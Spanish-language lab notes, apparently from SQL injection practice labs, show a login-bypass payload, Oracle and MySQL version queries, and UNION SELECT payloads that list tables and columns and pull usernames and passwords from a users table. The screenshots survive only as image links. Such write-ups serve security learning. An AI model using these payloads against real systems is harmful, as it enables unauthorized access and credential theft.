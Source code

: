 Haremos la misma inyección pero sin user antes de la primera ' podemos enumerar algún usuario:
![[Pasted image 20240228175657.png]]
El response nos da:
![[Pasted image 20240228175830.png]]
La siguiente inyección será y nos logeamos como admin:
administrator'or'1'='1'--

Si el response nos da error de CSRF token, simplemente refrescamos la página y actualiza el csrf que tiene un número limitado de peticiones:
![[Pasted image 20240228180022.png]]
### Lab -  SQLI Oracle
Tenemos vulnerabilidad de inyección SQL en el filtro de categoría de producto.
Como cambiamos de motor a Orcale, las conusltas son distintas:
Para sacar la versión sería:
|Oracle| --> `SELECT banner FROM v$version  | SELECT version FROM v$instance`|

con un UNION SELECT simple
Vemos que tiene dos tablas tras ir probando con null, cambio un null por banner y comento con --  
#importante Los `+` son espacios

![[Pasted image 20240228181715.png]]

### Lab - Versión en MYSQL o MICROSOFT

Simplemente el comentario es diferente aunque la consulta es la misma:
![[Pasted image 20240228182821.png]]
![[Pasted image 20240228182832.png]]

### Lab  - Sacar user y passwords SQL

Primero quiero saber el nombre de la BD y el usuario actual
![[Pasted image 20240228183837.png]]
![[Pasted image 20240228183847.png]]

Las siguientes dos consultas sirven para sacar tablas las cuales tendremos que deducir dónde está el user y passwd
![[Pasted image 20240228190105.png]]

-'+union+select+column_name,null+from+information_schema.columns--
Sacamos la tabla `users_lhprvj
Consultamos las columnas de esa tabla
-'+union+select+column_name,null+from+information_schema.columns+where+table_name='users_lhprvj'--
![[Pasted image 20240228191806.png]]
Consultamos los datos de los campos username_qywmte y password_apkozo
-'+union+select+username_qywmte,password_apkozo+from+users_lhprvj--
#importante Hay veces que hace falta poner la BD con la tabla = `BD.users_lhprvj
